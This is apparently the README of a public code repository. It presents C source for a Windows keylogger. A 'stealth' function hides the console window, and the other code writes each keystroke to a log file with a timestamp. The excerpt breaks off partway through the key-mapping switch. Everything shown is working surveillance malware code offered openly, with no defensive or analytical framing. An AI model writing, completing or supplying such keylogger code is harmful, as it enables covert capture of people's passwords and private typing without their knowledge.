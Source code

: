 # Keylogger
Saves inputs of a user - Coded in c

#include "header.h"

void start(char *file)
{
    time_t startTime = time(0);

    FILE * OUTPUT_FILE;
    OUTPUT_FILE = fopen(file, "a+");

    fprintf(OUTPUT_FILE, "\n### START LOGGING AT: ");
    fputs(ctime(&startTime), OUTPUT_FILE);

    fclose(OUTPUT_FILE);
}

void stealth()
{
    HWND stealth;
    AllocConsole();
    stealth = FindWindowA("ConsoleWindowClass", NULL);      //Stealth identified as window "ConsoleWindowClass"
    ShowWindow(stealth, 0);     //Hides the window
}

int save(int key_stroke, char *file)
{
    FILE * OUTPUT_FILE;
    OUTPUT_FILE = fopen(file, "a+");

    if(key_stroke >= 39 && key_stroke <= 64)    //Key 0-9
    {
        if(!GetAsyncKeyState(VK_SHIFT))
        {
            switch(key_stroke)
            {
            case 0x30:
                fprintf(OUTPUT_FILE, "à");
                break;
            case 0x31:
                fprintf(OUTPUT_FILE, "&");
                break;
            case 0x32:
                fprintf(OUTPUT_FILE, "é");
                break;
            case 0x33:
                fprintf(OUTPUT_FILE, "[HASHTAG]");
                break;
            case 0x34:
                fprintf(OUTPUT_FILE, "'");
                break;
            case 0x35:
                fprintf(OUTPUT_FILE, "(");
                break;
            case 0x36:
                fprintf(OUTPUT_FILE, "-");
                break;
            case 0x37:
                fprintf(OUTPUT_FILE, "è");
                break;
            case 0x38:
                fprintf(OUTPUT_FILE, "_");
                break;
            case 0x39: